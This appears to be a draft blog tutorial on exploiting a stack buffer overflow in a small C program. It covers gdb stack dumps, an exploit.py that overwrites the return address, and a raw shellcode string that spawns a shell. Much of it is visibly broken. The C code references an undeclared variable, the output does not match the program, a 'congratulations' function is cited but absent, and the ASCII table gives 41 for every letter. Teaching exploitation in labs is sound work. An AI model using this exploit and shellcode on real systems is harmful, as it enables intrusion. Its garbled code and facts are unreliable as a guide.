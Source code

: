 ```yaml
---
title: "Buffer Overflow Exploitatoin"
date: 2020-08-10T20:03:02-03:00
draft: true
---
```


Buffer overflow is severe vulnerability caused by an unsinitezed input that overwrite an improper memory.

Considering this C code:

```
#include <stdio.h>


void vuln(void) 
{
    char name[10];

    puts("Say my name: ");
    gets(input);
    printf("My name is: %s\n", name);
}

void real_name()
{
    puts("My name truly is: Eduardo")
}


int main(void) {

        vuln();

        return 0;
}
```

Now we need to compile this program, we will use some flags to disable some binary protections:


Brief explain:
- **execstack:** Disable stack instruction execution.
- **fno-stack-protector:** Protect to overwrite of return address.
- **no-pie:** Disable memory randomization.

Made it, we got an executable file name "vulnerable".

This peace of code represente some operations that basically get an input, store the this content and print them. can you see it below.

```
~$ ./vulnerable
Give me some input:
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

You say: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

But, when this input is bigger than expected we got:

```
~$ ./vulnerable
Give me some input:
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

You say: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
[1]    10850 segmentation fault (core dumped)  ./vulnerable
```

Vuala, we got an unexpected behaviour.


We dont go deeper in assembly or computer architecture, but we need to understand a bit to comprehend and exploit this failure. Bellow i will explain some of necessary contento to this purpose.

#### Stack
    Is a memory segment. witch means that some content is stored in it, but between this content are us program variables. Also this contens is managed by an particular form, it work inserting(push) and removing(pop) elements on it, and following the rule FILO(first in is the last out).

#### Registers

**rip**: The RIP(Instruction pointer) is an register that is responsible for execute the next instruction of code.

 **rsp**: The rsp(Stack pointer) is an memory register that commonly apoint to the top of stack

 **rbp**: The base pointer register define the base of stack frame, it means the space reversed in stack to store variables.

#### Instructions 

**call**: This is a assembly instruction, like a C function when we call them, this instruction goes to especified address/label especified after its declaration. but it's not just that. because the funtion need to return to the old scope when it's called, because that, call, push the address of the next instruction after it self on the stack to get it later and come back to the old scope. 

**ret**: An assembly instruction that get the address on the top of stack and put them to RIP register by it self execute the intruction in this address.


Now come to gdb

```
gdb vulnerable
```
In console type:

```
disassembly vuln
                            [ Disassembly vuln function ]

   0x0000000000401176 <+0>:     endbr64
   0x000000000040117a <+4>:     push   rbp
   0x000000000040117b <+5>:     mov    rbp,rsp
   0x000000000040117e <+8>:     sub    rsp,0x40
   0x0000000000401182 <+12>:    lea    rdi,[rip+0xe7b]
   0x0000000000401189 <+19>:    call   0x401060 <puts@plt>
   0x000000000040118e <+24>:    lea    rax,[rbp-0x40]
   0x0000000000401192 <+28>:    mov    rdi,rax
   0x0000000000401195 <+31>:    mov    eax,0x0
   0x000000000040119a <+36>:    call   0x401080 <gets@plt>
   0x000000000040119f <+41>:    lea    rax,[rbp-0x40]
   0x00000000004011a3 <+45>:    mov    rsi,rax
   0x00000000004011a6 <+48>:    lea    rdi,[rip+0xe6c]
   0x00000000004011ad <+55>:    mov    eax,0x0
   0x00000000004011b2 <+60>:    call   0x401070 <printf@plt>
   0x00000000004011b7 <+65>:    nop
   0x00000000004011b8 <+66>:    leave
   0x00000000004011b9 <+67>:    ret
   ```

With this command, we got the assembly code of program. we can see some function that we was used are present and was called (put, gets, printf) 

```
run
                                [  Run program ]

Give me some input:
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAa
You say: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```
With this assert the program was executed in gdb context, in this exemple we will reproduce the unexpected behavior as before. but the difference is that now is possible to see the content of stack as can see bellow.
```
x/15gx $rsp
                                  [ Print STACK ]

0x7fffffffd8f8: 0x4141414141414141      0x4141414141414141
0x7fffffffd908: 0x4141414141414141      0x4141414141414141
0x7fffffffd918: 0x4141414141414141      0x0000614141414141
0x7fffffffd928: 0x00000000004011d1      0x00000000004011f0
0x7fffffffd938: 0x5e4a01bb79a2c0a2      0x0000000000401090
0x7fffffffd948: 0x00007fffffffd9f0      0x0000000000000000
0x7fffffffd958: 0x0000000000000000      0xa1b5fe44cb82c0a2
0x7fffffffd968: 0xa1b5ee07f96cc0a2

```

It's the partial dump stack memory. we can see that most of them is filled by "41". This represent the input sended for the program. But, 41 is diferent to "A" right? yes, but computacionaly, letter are represented by numbers, we can check it when we look at ascii table.

```
~$ man ascii
```
|Oct|Dec|Hex|Char|
|---|---|---|----|
|101|65 |41 | A  |
|101|65 |41 | B  |
|101|65 |41 | c  |
|101|65 |41 | D  |
|101|65 |41 | F  |
|101|65 |41 | G  |
|101|65 |41 | H  |

So, we can check that the input is realy stored in memory as an hexadecimal number. 

Considering that, and what we was talking about over some assembly instructions and registers. we got that, the rsp regiter appoint to 0x4141414141414141  that is the same to 0xAAAAAAAA and it means that the top address of memory is not the expected address that is the address that will return to scope of main function. 

Go follow step by stap to understand whats happened.

This illustration below show the stage of stack

```
                                     STACK
                High address:    |0x00000001|  <- rsp
                                 |   ...    |  
                                 | name[50] | <- Array
                                 |   ...    | <- rbp
                                 |0x00000FFC| 
                Low address      |0x00000FFF| 
```




```
                                     STACK
                High address:    |0x44444444|  <- rsp
                                 |0x43434343|  
                                 |0x42424242| <- Array
                                 |0x41414141| <- rbp
                                 |0x00000FFC| 
                Low address      |0x00000FFF| 
```

But it's not the core problem, it's behavior can be give much more damege than only crash the application, if you can overwrite the RIP register you can take control of the execution flow of the program might be possible executing other parts of code or execute arbitrary commands.

if insted you override the return address with "A" our some other junk, you especify an valid return adress, like the function "congratulations" in code above, whast will happen?

```
$HOME/file_path/vulnerable < payload
```
**Output**

```
Give me some input:
You say: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA@
YOU WIN
[1]    7836 segmentation fault (core dumped)
```

```
shellcode = '\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05'
```

exploit.py
```
padding = "A" * 72
ret_overwrite = "\xba\x11\x40\x00\x00\x00\x00\x00"
print padding + ret_overwrite
```


